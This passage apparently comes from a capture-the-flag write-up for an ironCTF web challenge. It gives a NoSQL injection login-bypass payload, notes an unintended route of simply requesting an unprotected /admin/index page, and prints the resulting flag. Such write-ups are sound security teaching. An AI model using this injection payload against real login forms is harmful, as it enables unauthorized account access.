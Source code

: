 ![10](../assets/posts/ironCTF/10.png)

We see a potential NoSQL injection vulnerability, we can exploit the vulnerability by passing in the payload: `username[$eq]=admin&password[$ne]=1`.

[NoSQL injection | HackTricks](https://book.hacktricks.xyz/pentesting-web/nosql-injection)

But, there was anther wild way to do this in an unintentional way. Just by visiting `/admin/index` we get the flag. `FFUF` to the rescue.

```bash
└─$ curl https://mango.1nf1n1ty.team/admin/index
<!DOCTYPE html>
<html lang="en">
<head>
<meta charset="UTF-8">
<meta name="viewport" content="width=device-width, initial-scale=1.0">
<title>Admin Index</title>
<link rel="stylesheet" href="/styles.css">
</head>
<body>
<div class="admin-container">
<h1>Admin Panel</h1>
<p>Here is the flag: <strong>
ironCTF{I_Said_M@nG0_N0t_M0ngo!}
```

Flag: `ironCTF{I_Said_M@nG0_N0t_M0ngo!}`

### **Treasure Hunt**
